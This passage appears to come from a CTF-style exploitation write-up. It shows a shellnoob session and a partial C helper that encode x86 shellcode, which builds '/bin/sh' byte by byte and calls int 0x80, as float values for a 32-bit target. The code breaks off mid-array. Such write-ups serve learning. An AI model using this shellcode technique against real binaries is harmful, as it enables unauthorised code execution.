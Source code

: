 Here are the remaining opcodes:

```
$ shellnoob --intel -i --to-opcode
asm_to_opcode selected (type "quit" or ^C to end)
>> mov ebx, esp
mov ebx, esp ~> 89e3
>> dec ebx
dec ebx ~> 4b
```

It is rather impossible to join all the needed opcode one after the other. We therefore need to surround them with dummy instruction such as `nop` or any other instructions that are 1 byte long. Through test of producible value, I found that a lot have 0x46 or 0x47 as the most significant byte, which correspond to `inc esi` and `inc edi` respectively.

I wrote a quick and dirty helper to find values that have the needed instruction in it and are surrounded by dummy ones:

```c
/* compile with:
 * gcc -m32 -o gen_numbers -Wall -O2 gen_numbers.c
 * -m32 is needed because the target binary is also 32-bit and float numbers
 *  are not the same between a 32-bit binary and a 64-bit one
 */

#include <stdlib.h>
#include <stdio.h>

int main(void) {

  unsigned int i;
  unsigned int o;
  float v;
  float *pf;
  int *pi;
  int temp;
  int got;

  char *instructions[] = {
    "xor eax, eax; inc eax ~> 31c040",
    "inc eax; inc eax ~> 4040",
    "inc ebx; ~> 43",
    "dec ebx; dec ebx ~> 4b4b",
    "xor ecx, ecx ~> 31c9",
    "xor edx, edx ~> 31d2",
    "int 0x80 ~> cd80",
    "mov ebx, esp ~> 89e3",
    "dec ebx, dec ebx ~> 4b4b",
    "mov byte ptr [ebx], 0x2f ~> c6032f /",
    "mov byte ptr [ebx], 0x62 ~> c60362 b",
    "mov byte ptr [ebx], 0x69 ~> c60369 i",
    "mov byte ptr [ebx], 0x6e ~> c6036e n",
    "mov byte ptr [ebx], 0x73 ~> c60373 s",
    "mov byte ptr [ebx], 0x68 ~> c60368 h",
    "mov byte ptr [ebx], 0x00 ~> c60300 \\0"
  };
  int opcodes[] = {
    0x40c031,
    0x4040,
    /* add a dummy 46 */
    0x4643,
    0x4b4b,
    0xc931,
    0xd231,
    0x80cd,
```